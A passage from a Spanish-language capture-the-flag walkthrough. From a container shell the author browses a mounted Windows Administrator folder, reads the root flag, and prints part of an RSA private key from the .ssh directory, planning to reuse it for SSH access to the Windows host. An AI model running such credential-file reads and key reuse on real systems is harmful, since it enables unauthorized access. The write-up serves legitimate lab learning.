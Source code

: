 Hay un directorio llamado **Administrator**, veamos que contiene:
```bash
docker@box:/c/Users$ cd Administrator                                          
cd Administrator
docker@box:/c/Users/Administrator$ ls -la                                      
ls -la
total 1433
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 .
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 ..
drwxrwxrwx    1 docker   staff         4096 May 19 20:29 .VirtualBox
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 .docker
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 .ssh
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 3D Objects
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 AppData
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 Application Data
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Contacts
drwxrwxrwx    1 docker   staff            0 Sep 15  2018 Cookies
dr-xr-xr-x    1 docker   staff            0 Feb  8  2021 Desktop
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 Documents
dr-xr-xr-x    1 docker   staff            0 Apr  5  2021 Downloads
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Favorites
dr-xr-xr-x    1 docker   staff            0 Feb 18  2020 Link
```

Ok, veamos el directorio **Desktop**:
```
docker@box:/c/Users/Administrator/Desktop$ ls                                  
ls
desktop.ini  root.txt
docker@box:/c/Users/Administrator/Desktop$ cat root.txt                        
cat root.txt
...
```
a...entonces, esto es lo mismo que la máquina **Windows**, es una montura de sus archivos por así decirlo. Es posible que podamos conectarnos a **Windows** utilizando la **llave privada SSH**.

<h2 id="Windows">Utilizando Llave Privada para Conectarnos a Windows por SSH</h2>

Vamos a copiar la llave privada del directorio oculto **.ssh**:
```bash
docker@box:/c/Users/Administrator$ cd .ssh                                     
cd .ssh
docker@box:/c/Users/Administrator/.ssh$ ls -la                                 
ls -la
total 18
drwxrwxrwx    1 docker   staff         4096 Feb 19  2020 .
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 ..
-rwxrwxrwx    1 docker   staff          404 Feb 19  2020 authorized_keys
-rwxrwxrwx    1 docker   staff         1675 Feb 19  2020 id_rsa
-rwxrwxrwx    1 docker   staff          404 Feb 19  2020 id_rsa.pub
-rwxrwxrwx    1 docker   staff          348 Feb 19  2020 known_hosts
docker@box:/c/Users/Administrator/.ssh$ cat id_rsa                             
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvo4SLlg/dkStA4jDUNxgF8kbNAF+6IYLNOOCeppfjz6RSOQv
Md08abGynhKMzsiiVCeJoj9L8GfSXGZIfsAIWXn9nyNaDdApoF7Mfm1KItgO+W9m
M7lArs4zgBzMGQleIskQvWTcKrQNdCDj9JxNIbhYLhJXgro+u5dW6EcYzq2MSORm
7A+eXfmPvdr4hE0wNUIwx2oOPr2duBfmxuhL8mZQWu5U1+Ipe2Nv4fAUYhKGTWHj
...
...
...
...
```
